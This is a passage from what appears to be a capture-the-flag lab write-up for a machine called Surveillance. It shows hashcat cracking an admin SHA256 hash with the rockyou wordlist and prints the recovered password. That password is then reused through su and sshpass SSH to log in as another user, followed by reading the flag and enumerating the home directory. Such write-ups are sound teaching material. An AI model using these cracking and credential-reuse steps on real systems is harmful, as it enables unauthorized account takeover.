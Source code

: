 It can’t auto recognize the format. I’ll assume its the simplest one to start - SHA256 is fast to crack, and I can go back and try to research more if it doesn’t work.

```
$ hashcat ./admin-sha256.hash -m 1400 /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
...[snip]...
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
...[snip]...

```

It completes in a matter os seconds.

### Shell

This password works with `su` and the matthew user on Surveillance:

```
www-data@surveillance:~$ su - matthew
Password:
matthew@surveillance:~$

```

It also works over SSH:

```
oxdf@hacky$ sshpass -p 'starcraft122490' ssh matthew@surveillance.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-89-generic x86_64)
...[snip]...
matthew@surveillance:~$

```

Either way, I can claim `user.txt`:

```
matthew@surveillance:~$ cat user.txt
263f2471************************

```

## Shell as zoneminder

### Enumeration

#### General

Matthew’s home directory is very empty:

```
matthew@surveillance:~$ ls -la
total 28
drwxrwx--- 3 matthew matthew 4096 Nov  9 12:45 .
drwxr-xr-x 4 root    root    4096 Oct 17  2023 ..
lrwxrwxrwx 1 matthew matthew    9 May 30  2023 .bash_history -> /dev/null
-rw-r--r-- 1 matthew matthew  220 Apr 21  2023 .bash_logout
-rw-r--r-- 1 matthew matthew 3771 Apr 21  2023 .bashrc
drwx------ 2 matthew matthew 4096 Sep 19  2023 .cache
-rw-r--r-- 1 matthew matthew  807 Apr 21  2023 .profile
-rw-r----- 1 root    matthew   33 Apr 15 22:11 user.txt

```

